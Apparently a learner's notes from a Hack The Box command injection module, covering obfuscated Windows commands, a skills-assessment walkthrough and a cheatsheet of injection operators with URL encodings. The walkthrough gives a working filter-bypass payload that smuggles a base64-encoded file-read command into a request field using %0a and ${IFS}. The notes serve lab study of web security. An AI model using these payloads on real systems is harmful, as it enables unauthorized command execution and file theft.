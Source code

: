 ```cmd
C:\htb> typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt

test_flag
```

> [!Tip]
> If we do not have access to a Windows VM, we can run the above code on a Linux VM through `pwsh`. Run `pwsh`, and then follow the exact same command from above. This tool is installed by default in your `Pwnbox` instance. You can also find installation instructions at this [link](https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell-core-on-linux).

For more on advanced obfuscation methods, you may refer to the [Secure Coding 101: JavaScript](https://academy.hackthebox.com/course/preview/secure-coding-101-javascript) module, which covers advanced obfuscations methods that can be utilized in various attacks, including the ones we covered in this module.

# Skills Assesment

![](Pasted%20image%2020250218193311.png)

![](Pasted%20image%2020250218193352.png)

The move option is the one with the Command Injection vulnerability:

![](Pasted%20image%2020250218195319.png)

Got a malicious request denied:

![](Pasted%20image%2020250218195424.png)

Succesfully bypassed the block with `%0a` and get the output of command `id`:

![](Pasted%20image%2020250218200101.png)

Final payload: 

```shell
%0abash<<<$(base64${IFS}-d<<<Y2F0IC9mbGFnLnR4dA==)&from=605311066.txt
```

![](Pasted%20image%2020250218200229.png)

# HTB Cheatsheet

## Injection Operators

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|`                    | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |
